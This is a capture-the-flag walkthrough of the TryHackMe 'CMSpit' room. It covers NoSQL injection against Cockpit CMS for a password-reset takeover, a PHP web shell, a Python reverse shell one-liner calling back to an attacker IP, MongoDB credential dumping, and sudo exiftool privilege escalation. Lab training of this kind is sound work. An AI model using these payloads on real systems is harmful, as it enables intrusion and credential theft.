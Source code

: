 Machine: CMSpit

URL: [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

Difficulty: Medium 

Author: [stuxnet](https://tryhackme.com/p/stuxnet)

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**

![sada](../assets/img/thm/cmspit/80http.png)

We known cms is Cockpit then look google for any exploit!

we got this article [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

[http://10.10.59.7/auth/login](http://10.10.59.7/auth/login) intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)

![image](../assets/img/thm/cmspit/var_dump.png)

we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}

![image](../assets/img/thm/cmspit/reset_token.png)

As successfully we got token

**Step 3: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!

![image](../assets/img/thm/cmspit/newpasswd.png)

![image](../assets/img/thm/cmspit/newpasswdweb.png)

Done! next lets login

Dashboard
![image](../assets/img/thm/cmspit/dashboard.png)

## Time to Reverse shell

Go to finder and click create ..file

![image](../assets/img/thm/cmspit/finder.png)

create a php file for web shell _shellme.php_

![image](../assets/img/thm/cmspit/create.png)

file is created successfully 

![image](../assets/img/thm/cmspit/shellme.png)

then edit the file enter the php payload

```php
<?php
        echo shell_exec($_REQUEST['cmd']);
?>
```
![image](../assets/img/thm/cmspit/writeshell.png)

save it and open it

![image](../assets/img/thm/cmspit/id.png)

yeah! we did lets get reverse shell with python3 payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.xx.xxx",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](../assets/img/thm/cmspit/reversesheel.png)

## Enum for SSH Creds

in terminal type _mongo_

	>show dbs

	>use sudousersbak

	>show collections

in this we get _webflag_ and user creds..
	
	>db.user.find()

	{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ss******123" }
	{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
	> 

![image](../assets/img/thm/cmspit/pass.jpg)

Yeah! we got ssh crendentials stux:p4ssxxxxxxxxx123

## Privilege escalation

sudo -l

PrivEsc using Exiftool 

![image](../assets/img/thm/cmspit/sudo-l.png)

On ![Gtfobins](https://gtfobins.github.io/gtfobins/exiftool/#sudo)

	sudo exiftool -filename=/home/stux/root.txt /root/root.txt

Now check stux home dir!
 
After some googling found __Arbitrary Code Execution for CVE-2021-22204 in ExifTool__

Exploit: [https://github.com/se162xg/CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204)

Download the script then send to the Machine 

	bash Exiftool-PrivEsc.sh 'sudo su'

	sudo -u root /usr/local/bin/exiftool delicate.jp

![image](../assets/img/thm/cmspit/root.png)

Rooted!

